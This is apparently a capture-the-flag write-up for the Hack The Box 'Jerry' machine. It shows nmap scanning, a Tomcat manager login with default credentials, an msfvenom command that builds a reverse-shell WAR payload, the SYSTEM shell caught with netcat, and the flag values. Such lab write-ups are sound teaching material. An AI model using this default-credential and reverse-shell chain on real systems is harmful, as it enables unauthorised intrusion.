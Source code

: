 ![Jerry.PNG](/assets/Machines/Easy/Jerry/Jerry.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.95
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.95
```

**Output**
```bash
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

3. Visit web page

![web.PNG](/assets/Machines/Easy/Jerry/web.PNG)

* Running Apache Tomcat

4. Go to `manager`

![manager.PNG](/assets/Machines/Easy/Jerry/manager.PNG)

5. Put default credentials **username:** `admin` & **password:** `admin`

![output.PNG](/assets/Machines/Easy/Jerry/output.PNG)

6. In script example put: 
* **username:** `tomcat` & **password:** `s3cret`

* Try to login with this credentials. (I know this credentials are example, but, try it)

7. Close navigator and go to `manager` **again**

![try.PNG](/assets/Machines/Easy/Jerry/try.PNG)

**Output**

![output2.PNG](/assets/Machines/Easy/Jerry/output2.PNG)

8. We try to upload war file malicious, use msfvenom to create this.

* First, search java payload
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Jerry]
└─| msfvenom -l payloads | grep java
```

**Output**
```bash
java/jsp_shell_bind_tcp                        Listen for a connection and spawn a command shell
java/jsp_shell_reverse_tcp                     Connect back to attacker and spawn a command shell
java/meterpreter/bind_tcp                      Run a meterpreter server in Java. Listen for a connection
java/meterpreter/reverse_http                  Run a meterpreter server in Java. Tunnel communication over HTTP
java/meterpreter/reverse_https                 Run a meterpreter server in Java. Tunnel communication over HTTPS
java/meterpreter/reverse_tcp                   Run a meterpreter server in Java. Connect back stager
java/shell/bind_tcp                            Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
java/shell/reverse_tcp                         Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
java/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
```
---
* We use `java/jsp_shell_reverse_tcp` payload, now we go to configure this.
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Jerry]
└─| msfvenom -p java/jsp_shell_reverse_tcp LHOST=<tun0 IP> LPORT=443 -f war -o <name file .war>
```

**Output**

![war.PNG](/assets/Machines/Easy/Jerry/war.PNG)


9. Upload **.war file** on web

* In this part 

![war_web.PNG](/assets/Machines/Easy/Jerry/war_web.PNG)

10. In part of **Applications** we can watch our war file (In mi case `/shell`)

![app.PNG](/assets/Machines/Easy/Jerry/app.PNG)

11. Click on your name of application, before, listen with netcat in port choosed

**Output**
```cmd
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Jerry]
└─# nc -lvnp 443                                          
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

12. Cat the flags
```cmd
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,896,320 bytes free
```


```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```